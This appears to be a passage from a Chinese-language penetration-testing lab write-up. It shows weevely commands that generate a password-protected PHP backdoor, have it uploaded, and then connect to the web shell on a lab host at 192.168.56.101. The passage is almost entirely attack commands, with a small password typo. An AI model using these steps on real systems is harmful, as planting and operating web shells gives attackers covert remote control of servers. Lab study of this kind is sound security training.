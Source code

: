 - `weevely generate123465 ~/Desktop/bd.php.test`,使用weevely生成后门文件,密码问"123456"(连接时用),并将后门文件上传<br>![](wl2.png)<br>![](wl1.png)
- `weevely http://192.168.56.101/admin/uploads/bd.php.test 123456`,通过刚才上传的后台文件,进行远程连接<br>![](wl3.png)